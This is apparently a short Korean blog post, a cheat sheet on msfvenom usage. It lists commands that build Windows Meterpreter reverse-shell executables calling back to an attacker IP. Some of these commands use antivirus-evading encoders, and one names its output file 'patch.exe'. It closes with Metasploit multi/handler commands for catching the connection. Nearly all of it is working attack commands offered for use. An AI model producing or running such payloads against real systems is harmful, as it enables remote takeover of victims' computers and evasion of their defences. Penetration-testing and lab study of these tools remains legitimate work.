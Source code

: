 ```yaml
---
layout: post
title:  "msfvenom 사용법"
date: 2025-04-01 12:37:00 +/-TTTT
categories: [hacking]
tags: [metasploit]
---
```


## 📌 msfvenom 사용법
```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe lhost=192.168.123.112 lport=4444 -o /root/test.exe

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe -o payload.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=(공격자ip) lport=(default=4444) -f exe -e x64/zutto_dekiru -i 3 -o /root/patch.exe

```
> -p : 페이로드 옵션을 설정    
 -o : 파일 경로와 파일명 지정    
 -e : 인코딩     
 -f : 파일 형식\
 -a : 아키텍쳐     
 --platform : 플랫폼 설정\
 -i : 인코딩 횟수

```
msfconsle
use multi/handler
set payload windows/meterpreter/reverse_tcp or windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.123.112
set LPORT 4444

exploit -j
```
- - -
